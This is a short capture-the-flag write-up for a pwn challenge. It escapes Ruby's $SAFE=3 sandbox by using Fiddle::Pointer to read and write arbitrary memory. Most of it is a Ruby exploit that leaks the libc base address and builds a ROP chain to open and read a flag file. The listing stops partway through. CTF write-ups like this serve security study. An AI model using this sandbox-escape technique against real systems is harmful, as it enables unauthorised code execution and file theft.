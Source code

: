 ## Little Riddle (pwn)

This challenge was about bypassing `$SAFE=3` sandbox which is obsolete in Ruby
2.3 and above.

The bad news is that there are [some
restrictions](http://phrogz.net/programmingruby/taint.html) due to safe level
but there is also a good news:  
[`Fiddle::Pointer`](https://docs.ruby-lang.org/en/2.2.0/Fiddle/Pointer.html)
doesn't have any taint checking and it can be used to read and write arbitrary
memory!

Here is my exploit:  
```ruby  
libc_offset = {  
 "read" => 0xf7250,  
 "open" => 0xf7030,  
 "write" => 0xf72b0,  
 "exit" => 0x3a030,  
 "setcontext" => 0x47b75,  
 "pop_rdi_ret" => 0x21102,  
 "pop_rsi_ret" => 0x202e8,  
 "pop_rdx_ret" => 0x1150a6,  
 "ret" => 0x21103,  
 "main_arena" => 0x3c4b20  
}

# allocate a chunk  
a = Fiddle::Pointer.malloc(1)  
puts "a = 0x%x" % a.to_i

# get its arena  
arena = Fiddle::Pointer.new(a.to_i & 0xfffffffffc000000)[0, 8].unpack("Q")[0]  
puts "arena = 0x%x" % arena

# get address of main_arena  
main_arena = Fiddle::Pointer.new(arena + 0x868)[0, 8].unpack("Q")[0]  
puts "main_arena = 0x%x" % main_arena.to_i

# get libc base  
libc_base = main_arena - libc_offset["main_arena"]  
puts "libc base = 0x%x" % libc_base

# read flag  
[1].each{  
 ptr = Fiddle::Pointer.malloc(0x200, libc_base + libc_offset["setcontext"])

 payload = ""  
 payload << "/home/p31338/flag".ljust(0xa0, "\0")  
 payload << [ptr.to_i + 0xb0].pack("Q*")  # rsp  
 payload << [libc_base + libc_offset["ret"]].pack("Q") * 10  
 payload << [libc_base + libc_offset["pop_rdi_ret"], ptr.to_i].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rsi_ret"], 0].pack("Q*")  
 payload << [libc_base + libc_offset["open"]].pack("Q")  
 payload << [libc_base + libc_offset["pop_rdi_ret"], 7].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rsi_ret"], ptr.to_i].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rdx_ret"], 0x40].pack("Q*")  
 payload << [libc_base + libc_offset["read"]].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rdi_ret"], 1].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rsi_ret"], ptr.to_i].pack("Q*")  
 payload << [libc_base + libc_offset["pop_rdx_ret"], 0x40].pack("Q*")  
 payload << [libc_base + libc_offset["write"]].pack("Q*")  
 payload << [libc_base + libc_offset["exit"]].pack("Q")  
 ptr[0, payload.length] = payload  
```